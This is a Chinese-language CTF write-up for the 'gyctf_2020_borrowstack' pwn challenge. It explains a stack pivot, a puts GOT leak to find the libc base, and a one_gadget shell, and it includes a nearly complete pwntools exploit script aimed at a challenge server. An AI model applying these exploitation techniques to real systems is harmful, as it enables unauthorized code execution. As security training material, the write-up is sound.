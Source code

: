 # gyctf_2020_borrowstack

本以为是普通的栈迁移，但其实并不是

![image-20210414213137159](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740618.png)

第二次输入的payload本来是

```
payload2 = p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)
```

但是本地并不能如我所愿打印出puts的真实地址，经本地调试发现是在运行至puts函数内部时报错……不太明白是为什么（是在ubuntu18上做的，版本不太对，缺了什么文件），远程调试能打印，但打印出的东西也不明所以（应该是后面所说的原因）

改成如下后正常：

```
payload2 = p64(ret_addr) * 20 + p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)
```

这样改除了能使puts的正常输出外，还有一个很重要的原因，就是我们输入的地方和got表离得很近，距离不到0x0601080 - 0x0601000 = 0x80，如果我们不把栈顶的地址手动抬高的话，后面返回到main或puts函数时，几个压栈后改掉了got表里的内容，导致got表里的东西无法正常输出。

看来以后如果思路正确的话，**如果想要的东西输出不出来，多加几个ret说不定有奇效**

但是payload3加几个ret都没用……可能是栈对齐的原因，于是用one_gadget

原来的：

```
payload3 = p64(ret_addr) * 100 + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + p64(0xdeadbeef)
```

后来的：

```
payload3 = b'a' * 96 + p64(0xdeadbeef) + p64(one_gadget)
```

exp如下：

```
from pwn import*
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 28902)
#p = process('./pwn')
e = ELF("./pwn")
libc = ELF('./libc-2.23.so')
bank_addr = 0x0601080
leave_ret_addr = 0x0400699
pop_rdi_ret = 0x0400703
puts_plt_addr = e.plt['puts']
puts_got_addr = e.got['puts']
main_addr = e.symbols['main']
ret_addr = 0x04004c9
p.recvuntil("Tell me what you want\n")
payload1 = b'a' * 96 + p64(bank_addr - 8) + p64(leave_ret_addr)
p.send(payload1)
p.recvuntil("borrow stack now!\n")
payload2 = p64(ret_addr) * 20 + p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)
p.sendline(payload2)
puts_true_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base_addr = puts_true_addr - libc.symbols['puts']
one_gadget = libc_base_addr + 0xf02a4
p.recvuntil("Tell me what you want\n")
payload3 = b'a' * 96 + p64(0xdeadbeef) + p64(one_gadget)
```